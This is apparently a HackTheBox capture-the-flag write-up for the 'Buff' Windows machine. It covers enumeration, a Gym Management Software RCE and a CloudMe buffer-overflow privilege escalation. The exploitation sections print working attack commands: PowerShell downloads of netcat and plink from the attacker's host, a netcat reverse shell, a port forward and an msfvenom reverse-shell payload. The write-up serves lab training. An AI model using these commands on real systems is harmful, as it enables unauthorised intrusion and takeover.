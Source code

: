 [HackTheBox] Buff
===============
date: 24/Nov/2020
summary: This is the summary for an awesome post.
tags: hackthebox, writeup

## Overview
This is a writeup for HackTheBox VM [Buff](https://www.hackthebox.eu/home/machines/profile/263). Here are stats for this machine from [machinescli](https://github.com/7h3rAm/machinescli):

![writeup.overview.machinescli](/static/files/posts_htb_buff/machinescli.png.webp)

### Killchain
Here's the killchain (`enumeration` → `exploitation` → `privilege escalation`) for this machine:

![writeup.overview.killchain](/static/files/posts_htb_buff/killchain.png.webp)

### TTPs
1\. `8080/tcp/http/Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)`: [enumerate_proto_http](https://github.com/7h3rAm/writeups#enumerate_proto_http), [exploit_gymsystem_rce](https://github.com/7h3rAm/writeups#exploit_gymsystem_rce), [exploit_cloudme_bof](https://github.com/7h3rAm/writeups#exploit_cloudme_bof)  

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.80 scan initiated Wed Jul 22 21:04:22 2020 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /home/kali/toolbox/repos/writeupsall/htb.buff/10.10.10.198/scans/_quick_tcp_nmap.txt -oX /home/kali/toolbox/repos/writeupsall/htb.buff/10.10.10.198/scans/xml/_quick_tcp_nmap.xml 10.10.10.198
Nmap scan report for 10.10.10.198
Host is up, received user-set (0.34s latency).
Scanned at 2020-07-22 21:04:36 IST for 101s
Not shown: 999 filtered ports
Reason: 999 no-responses
PORT     STATE SERVICE REASON  VERSION
8080/tcp open  http    syn-ack Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 22 21:06:17 2020 -- 1 IP address (1 host up) scanned in 114.83 seconds
```

2\. Here's the summary of open ports and associated [AutoRecon](https://github.com/Tib3rius/AutoRecon) scan files:  

![writeup.enumeration.steps.2.1](/static/files/posts_htb_buff/openports.png.webp)  

3\. We find `8080/tcp` to be open and running `Apache httpd 2.4.43`. We start by looking at the webpage and find it be hosting a fitness center portal:  

![writeup.enumeration.steps.3.1](/static/files/posts_htb_buff/screenshot01.png.webp)  

4\. We find multiple pages from the `gobuster` scan results and upon visiting `/contacts.php` page, we find that we are interacting with the `Gym Management Software 1.0` web application:  
```
cat ./10.10.10.198/scans/tcp_8080_http_gobuster.txt | grep -v 403
  /ADMIN (Status: 301) [Size: 343]
  /About.php (Status: 200) [Size: 5337]
  /Admin (Status: 301) [Size: 343]
  /Contact.php (Status: 200) [Size: 4169]
  /Home.php (Status: 200) [Size: 143]
  /Index.php (Status: 200) [Size: 4969]
  /LICENSE (Status: 200) [Size: 18025]
  /about.php (Status: 200) [Size: 5337]
  /admin (Status: 301) [Size: 343]
  /boot (Status: 301) [Size: 342]
  /contact.php (Status: 200) [Size: 4169]
  /edit.php (Status: 200) [Size: 4282]
  /ex (Status: 301) [Size: 340]
  /feedback.php (Status: 200) [Size: 4252]
  /home.php (Status: 200) [Size: 143]
  /img (Status: 301) [Size: 341]
  /include (Status: 301) [Size: 345]
  /index.php (Status: 200) [Size: 4969]
  /index.php (Status: 200) [Size: 4969]
  /license (Status: 200) [Size: 18025]
  /packages.php (Status: 200) [Size: 7791]
  /profile (Status: 301) [Size: 345]
  /register.php (Status: 200) [Size: 137]
  /up.php (Status: 200) [Size: 209]
  /upload (Status: 301) [Size: 344]
  /upload.php (Status: 200) [Size: 107]
```

![writeup.enumeration.steps.4.1](/static/files/posts_htb_buff/screenshot02.png.webp)  

### Findings
#### Open Ports
```
8080/tcp   http         Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
```

## Phase #2: Exploitation
1\. We use `searchsploit` to find exploits for the webapp and find an unauthenticated remote code execution vulnerability. We inspect the exploit and upon executing it, we get a pseudo-interactive shell on the target machine:  
```
python 48506.py http://10.10.10.198:8080/
```

![writeup.exploitation.steps.1.1](/static/files/posts_htb_buff/screenshot03.png.webp)  

![writeup.exploitation.steps.1.2](/static/files/posts_htb_buff/screenshot04.png.webp)  

2\. To get a fully interactive shell, we use powershell to transfer netcat binary, start a local netcat listener and then catch the incoming connection:  
```
nc -nlvp 4433

powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.8:8000/nc.exe','C:\Users\shaun\Desktop\nc.exe')"
C:\Users\shaun\Desktop\nc.exe 10.10.14.8 4433 -e cmd.exe
```

![writeup.exploitation.steps.2.1](/static/files/posts_htb_buff/screenshot05.png.webp)  

![writeup.exploitation.steps.2.2](/static/files/posts_htb_buff/screenshot06.png.webp)  

3\. We use this interactive access to read the `user.txt` flag:  
```
type C:\Users\shaun\Desktop\user.txt
```

![writeup.exploitation.steps.3.1](/static/files/posts_htb_buff/screenshot07.png.webp)  

## Phase #2.5: Post Exploitation
```
buff\shaun@BUFF> id
buff\shaun
buff\shaun@BUFF>  
buff\shaun@BUFF> uname
Host Name:                 BUFF
OS Name:                   Microsoft Windows 10 Enterprise
OS Version:                10.0.17134 N/A Build 17134
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
buff\shaun@BUFF>  
buff\shaun@BUFF> ifconfig
Windows IP Configuration
  Ethernet adapter Ethernet0:
    Connection-specific DNS Suffix  . :
    IPv6 Address. . . . . . . . . . . : dead:beef::616c:bed8:4b75:6e17
    Temporary IPv6 Address. . . . . . : dead:beef::7813:413b:2e52:5901
    Link-local IPv6 Address . . . . . : fe80::616c:bed8:4b75:6e17%10
    IPv4 Address. . . . . . . . . . . : 10.10.10.198
    Subnet Mask . . . . . . . . . . . : 255.255.255.0
    Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:9eb2%10
                                        10.10.10.2
buff\shaun@BUFF>  
buff\shaun@BUFF> users
Administrator
shaun
```

## Phase #3: Privilege Escalation
1\. We use `winPEAS.exe` to enumerate the target machine and within the `services restricted from the outside` section, find an interesting service bound to `127.0.0.1:8888`:  
```
netstat -anp tcp
```

![writeup.privesc.steps.1.1](/static/files/posts_htb_buff/screenshot08.png.webp)  

2\. We find this to be a `CloudMe` process and there's a binary named `CloudMe_1112.exe` within the `C:\Users\shaun\Downloads` directory that hints that the version could be `1.11.2`:  
```
powershell ps
```

![writeup.privesc.steps.2.1](/static/files/posts_htb_buff/screenshot09.png.webp)  

![writeup.privesc.steps.2.2](/static/files/posts_htb_buff/screenshot10.png.webp)  

3\. We find a buffer overflow exploit for this application that could give us elevated privileges if the `CloudMe` process is running as Administrator:  
```
searchsploit cloudme
```

![writeup.privesc.steps.3.1](/static/files/posts_htb_buff/screenshot11.png.webp)  

4\. But we cannot connect to this service from our attacking machine. We will need to setup a port forward for this exploit to work. We start the SSH service on our attacking machine, transfer the `plink.exe` binary and setup the port forward:  
```
service ssh restart
service ssh status
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.8:8000/plink64.exe','C:\Users\shaun\Desktop\plink.exe')"
C:\Users\shaun\Desktop\plink.exe -v -x -a -T -C -noagent -ssh -pw "kali" -R 8888:127.0.0.1:8888 kali@10.10.14.8
```

![writeup.privesc.steps.4.1](/static/files/posts_htb_buff/screenshot12.png.webp)  

![writeup.privesc.steps.4.2](/static/files/posts_htb_buff/screenshot13.png.webp)  

5\. We update the exploit with the right shellcode, setup a reverse shell to catch incoming connection and run the exploit:  
```
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.8 lport=443 -b "\x00\x0a\x0d" -f python -a x86 --platform windows -e x86/shikata_ga_nai

sudo nc -nlvp 443
python 48389.py
```

![writeup.privesc.steps.5.1](/static/files/posts_htb_buff/screenshot14.png.webp)  

6\. We immmediately get an elevated reverse shell connection and use it to read the `root.txt` flag:  
```
type C:\Users\Administrator\Desktop\root.txt
```

![writeup.privesc.steps.6.1](/static/files/posts_htb_buff/screenshot15.png.webp)  

## References
* <https://www.hackthebox.eu/home/machines/profile/263>  
